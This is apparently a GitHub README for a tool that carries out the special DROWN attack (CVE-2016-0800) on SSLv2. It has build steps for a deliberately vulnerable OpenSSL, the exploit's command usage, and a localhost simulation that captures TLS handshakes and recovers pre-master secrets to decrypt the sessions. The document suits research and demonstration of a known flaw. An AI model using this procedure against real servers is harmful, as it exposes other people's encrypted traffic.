 # drown
Implementation of the special DROWN attack on SSL2

Note : this does not cover the general DROWN attack.


## Installation

First, we need a version of OpenSSL with SSLv2 enabled. Also, if we want to make some simulations, we need a vulnerable OpenSSL (<= 1.0.1l).
We will compile and install it on the folder /path/to/prefix :

    wget https://www.openssl.org/source/openssl-1.0.1l.tar.gz
    tar xzf openssl-1.0.1l.tar.gz
    cd openssl-1.0.1l
    ./config enable-ssl2 enable-weak-ciphers --openssldir=/path/to/prefix
    make && make install

Now let's compile the exploit :

    git clone https://github.com/Tim---/drown
    SSL_PREFIX=/path/to/prefix make

To decrypt an encrypted pre-master secret c, using the public key of the server at the address host:port, we will use the following command :

    ./drown host:port certfile c

## Passive attack

In this type of attack, we can see the traffic between a server and a client using TLS.
In this case, we can decrypt some TLS sessions if :
* the same server, or another server, allows SSLv2 connections with the same public key ;
* the TLS sessions uses RSA as a key exchange algorithm (no Diffie-Hellman) ;
* the server is vulnerable to CVE-2016-0800 ;
* there is a sufficient number of session.

## Simulation

To simulate this scenario, want to record some TLS handshakes between a client and a server.
We will use the old version of OpenSSL we have installed to create a server, and initiate a lot of sessions.
We will capture the handshakes with tshark.

    cd /path/to/prefix
    ./bin/openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 123
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    tshark -i lo -w handshakes.cap
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 0.1) | ./bin/openssl s_client -connect 127.0.0.1:4433 -cipher kRSA; done

We can now get the encrypted pre-master secrets for each session with :

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d :

To decrypt these handshakes, we need an OpenSSL server accepting SSLv2 connections :

    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4434 -www -ssl2

We can now decrypt the encrypted pre-master secrest : 
    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d : | ./drown localhost:4434 cert.pem > pms.txt

After some time and if we're lucky, we will have some results in pms.txt. You can use this file in Wireshark to decrypt the content of the TLS session (Protocol Preferences > SSL > (Pre)-Master-Secret log filename).

